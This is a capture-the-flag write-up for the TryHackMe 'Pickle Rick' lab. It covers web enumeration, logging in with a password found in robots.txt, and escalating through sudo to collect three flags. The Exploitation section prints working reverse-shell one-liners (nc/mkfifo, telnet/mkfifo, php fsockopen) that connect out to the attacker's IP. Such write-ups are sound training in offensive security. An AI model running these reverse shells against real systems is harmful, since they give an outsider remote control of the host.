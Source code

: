 # TryHackMe: Pickle Rick CTF

Notes/writeup for the THM CTF machine titled "Pickle Rick."

This is a fun machine that focuses on enumeration and investigation, reverse shells, and the linux file system.

* * *

## Enumeration

After starting the machine, I immediately ran a few different processes to gain a basic understanding of the machine and services.

The initial results were:

```
dirb:
	/assets/

nmap:
	port 22: OpenSSH
	port 80: Apache on Ubuntu
		System:
		Apache/2.4.18 (Ubuntu) Server at 10.10.139.155 		Port 80 
```

Main/Front Webpage:
![Front page](/cd_image_dir/front_page.png)

```
Source Code: 
```

```
Note to self, remember username!

Username: R1ckRul3s
```

```
- username is embedded in the html code
- The text references "BURP" twice; At this point, I'm not sure if this is a reference to the show, or a hint that Burp Suite will be useful. 
```

With that said, I decided to open Burp and saw that the images being used were contained within a directory called /assets which is accessible.

	GET /assets/rickandmorty.jpeg
	/assets/ 

contains photos and js files - perhaps the images contain something interesting. I ran stegseek while the nmap and dirb processes were finishing up, however nothing unusual was found in the photos robots.txt: Wubbalubbadubdub - I appended this at the end of the URL as well as a subdirectory of /assets/ but nothing found. This will likely be useful at some point, however.


As seen above, the initial enumeration of the website did not return anything useful. Perhaps I should've done this from the start, but I executed further enumeration with gobuster, and widened the scope to include various file extensions

```
 gobuster -u http://10.10.139.155/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html -t 15
 
 Gobuster:
 /login.php 
```

Now, a fair amount of progress has been made:

```
Known:
	- Username
	- Login page/a web form
	- a string, potentially a password 
```

With these discoveries, I attempted login for the user R1ckRul3s with the string found in robots.txt. Authentication was succesful and I was greeted with a command execution box.

* * *

## Foothold

The first commands I executed within the web terminal were:

```
id

ls -lah
```

As usual, we have a webshell with the www-data user, uid 33:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Immediately, the files output from ls, named below, stand out:

```
Sup3rS3cretPickl3Ingred.txt
clue.txt 
```

I attempted to run the cat command, however permission was denied, so we need to either find a way around this or find a privesc exploit.
Before moving on, however, I decided to try the strings command:

```bash
strings clue.txt
```

Fortunately, this does work. The file reads:

```
"Look around the file system for the other ingredient." 
```

```bash
strings Sup3rS3cretPickl3Ingred.txt
```

I then tried the strings command for the "Sup3rS3cretPickl3Ingred.txt" file and surely enough, it worked. We now have our first flag/ingredient.

At this point, everything within the current directory is exhausted, so it is clear that in order to find more clues/flags, we will have to move onto other areas, as the clue suggests. I attempted to cd into different common directories and ran pwd, which as expected, showed we are within the:

```
/var/www/html 
```

directory, however I was unable to change directories.

* * *

## Exploitation

In order to make further progress, a more useful reverse shell must be established. Two common ways of accomplishing this would be to either start a local python http server and wget the reverse shell, or to simply use php/bash/netcat one-liner and directly execute it via the limited command input we already have.

I decided to go with the direct execution method and tried the following:

```
cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.5.104 4443 >/tmp/f"
```

The same error was seen, "Command disabled."

I then decided to try using php commands, which I generated via revshells.com.

```
nc -lvnp <port>
```

```
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash <&3 >&3 2>&3");'
```

![failed connection](/tmp/.mount_JoplincQ5eHE/resources/app.asar/cs_img_dir/revshell_fail.png)

The command was clearly executed, as a connection was made with netcat, however it immediately closed and could not be accesed. While this specific command did not work, there is at least confirmation that the commands are running and that connections can be made.

I continued trying various different methods, including php cmd, php exec, nc, bash, etc., none of which worked, however I was able to succesfully establish a reverse shell using telnet, via the following command:

```
TF=$(mktemp -u);mkfifo $TF && telnet 10.13.5.104 4443 0<$TF | /bin/bash 1>$TF
```

First, I tried some broad searches to see if anything immediately stuck out:

```
locate *.txt
locate *.sh
```

I did not see anything particularly interesting, so I navigated to /home and found a directory called "rick."

Inside of rick was a file called "second ingredients" and executing the cat command succesfully returned the second ingredient.

```
cd /home
cd /rick
ls --> second ingredients
cat * --> flag
```

Now, only one flag/ingredient is left. Given past experience with similar CTF machines, I thought it likely that this last flag would require elevated permissions to access. After attempting to cd into /root, it is clear that the current privilege level does not allow for movement within the root directory despite the machine not displaying any errors via the terminal.

I ran the following commands as a preliminary search for any potential methods of access or vulnerabilties:

```
find . -perm /4000

sudo -l
```

- While I could have easily set up a python http server and simply run linenum, I wanted to try to avoid doing that and instead improve my ability to manually search for any exploits, misconfigurations, and general methods of accessing privileged files or processes.

Interestingly, sudo -l returned "ALL." This came as a surprise, so instead of continuing to search for privesc exploits, I instead tried:

```
sudo ls /root/
```

Surely enough, this did return the contents of /root, including what appears to be the third and final flag.

Next, I tried:

```
sudo cat /root/3rd.txt 
sudo strings /root/3rd.txt
```

However, these did not return anything. I tried one more command:

```
sudo vi /root/3rd.txt
```

and, the third flag was returned!
